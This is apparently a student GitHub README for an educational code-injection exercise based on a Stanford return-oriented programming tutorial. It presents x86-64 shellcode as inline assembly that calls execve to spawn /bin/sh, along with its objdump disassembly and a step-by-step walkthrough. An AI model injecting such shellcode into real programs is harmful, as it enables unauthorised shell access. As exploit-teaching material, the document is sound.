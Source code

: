 # Code Injection #
## Eun Il Kim

This project is based on the tutorial provided by Ben Lynn from Stanford University, at: https://crypto.stanford.edu/~blynn/rop/

### What is this repository for? ###

* This is purely for educational purposes and to understand the mechanism behind code injection.

## The Shell Game
1. needle0 jumps to address there
2. there pushes the address below there and jumps to here
3. here places the address below there into rdi
4. clears the rax register
5. stores the program the that filename points to into the lower register of RAX
6. clears the rsi and rdx registers
7. then returns the value of RAX
8. then .string will allocate space for "/bin/sh\" in memory
9. Finally needle1 will create a 16 byte space for 0xdeadbeef register

### shell.c
```
int main() {
  asm("\
needle0: jmp there\n\
here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
there:   call here\n\
.string \"/bin/sh\"\n\
needle1: .octa 0xdeadbeef\n\
  ");
}
```
Then we run a disassembler to see the address jumps and register values

```
$ objdump -d a.out | sed -n '/needle0/,/needle1/p'
0000000000400478 <needle0>:
  400478:       eb 0e                   jmp    400488 <there>

000000000040047a <here>:
  40047a:       5f                      pop    %rdi
  40047b:       48 31 c0                xor    %rax,%rax
  40047e:       b0 3b                   mov    $0x3b,%al
  400480:       48 31 f6                xor    %rsi,%rsi
  400483:       48 31 d2                xor    %rdx,%rdx
  400486:       0f 05                   syscall

0000000000400488 <there>:
  400488:       e8 ed ff ff ff          callq  40047a <here>
  40048d:       2f                      (bad)
  40048e:       62                      (bad)
  40048f:       69 6e 2f 73 68 00 ef    imul   $0xef006873,0x2f(%rsi),%ebp

0000000000400495 <needle1>:
```
